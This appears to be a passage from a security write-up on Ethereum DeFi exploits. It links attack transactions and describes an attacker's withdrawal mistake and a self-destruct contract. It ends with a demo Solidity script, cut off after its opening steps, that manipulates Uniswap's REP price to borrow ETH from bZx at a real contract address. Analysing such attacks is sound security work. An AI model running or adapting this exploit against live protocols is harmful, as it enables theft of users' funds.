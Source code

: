 Two examples:

> * [This arbitrage transaction](https://oko.palkeo.com/0x6ae8e21f8ab094df3f3e7c3f644c4f56e071b89618c0318add7a8799ccd6e5c6/) made a profit of 315 ETH \(see the balance change of the contract 0xb958…\).
> * [This other transaction](https://oko.palkeo.com/0xc0f851da35f752c0fd300404324fad434076567432e1a7df37ae4df480f5f71d/) made a profit of 9 ETH.
> * There is a lot more: you can see the list [here \(page 23\)](https://bloxy.info/txs/events_sc/0x4d2f5cfba55ae412221182d8475bc85799a5644b?from=2020-02-15&signature_id=12727&till=2020-02-15).

### **Bonus findings**

#### **Even the attacker makes mistakes**

When withdrawing money, they always have their contract create a temporary contract that self-destruct itself immediately \(see above\). And they specify the amount of Ether they want to withdraw.

[See here for an example](https://oko.palkeo.com/0x798aeb81f16d7b9d69f6d311264963efff6251598a4fa518948de30a823d7351/). However this example was their second try!

First [they failed](https://oko.palkeo.com/0xcefbfd3f3003bd8cc8a82ac27d01b9b4d076b7c8db08c6b3b7f7c02b89b6423b/), because instead of passing 10.1×1018 Wei, they passed 10.1×1018×1018 \(they multiplied the amount in Wei twice by 1018\). So obviously this was a ridiculously high amount and it didn’t work.

This is a very small mistake without consequences, but it was interesting to see.

#### **Possibly related contract**

The [self-destructing contracts](https://oko.palkeo.com/0xbeBb19bda59AB9e5b444018114ca37e82bbd93FC/code/) that the attacker was using have an unknown function selector, for the function that triggers the self-destruct: `0xf2adf1cb`.

We don’t know what’s the original name. However we can find [this contract](https://oko.palkeo.com/0xb68605A705A60Ca85927c7dB237457D8B63d9809/code/) that is from 2+ years ago, but seems to do something very similar, and has that same function selector! It’s the [only one](https://bloxy.info/functions/f2adf1cb) on mainnet.

There is no way to tell if this was related, or if it’s just a coincidence. But it’s worth considering.

## Demo

The following script will turn a profit of approximately 2500ETH by:

1. Performing a large order buy on Uniswap's REP exchange, increasing the price from 0.05ETH/REP to 6.05ETH/REP
2. Borrowing ETH from bZx using REP as collateral
3. Cancelling all orders and convert all assets to ETH

```javascript
contract BZxUniswapExploit is Script, Constants, TokenHelper, BZxHelpers {
    BZxLoanTokenV3Like private constant BZX_ETH = BZxLoanTokenV3Like(0x77f973FCaF871459aa58cd81881Ce453759281bC);
    
    uint constant private INITIAL_BALANCE = 5000 ether;
    
    function setup() public {
        name("bzx-uniswap-exploit");
        blockNumber(8547500);
    }
    
    function run() public {
        begin("exploit")
            .withBalance(INITIAL_BALANCE)
            .first(this.checkRates)
            .then(this.makeOrder)
            .then(this.checkRates)
```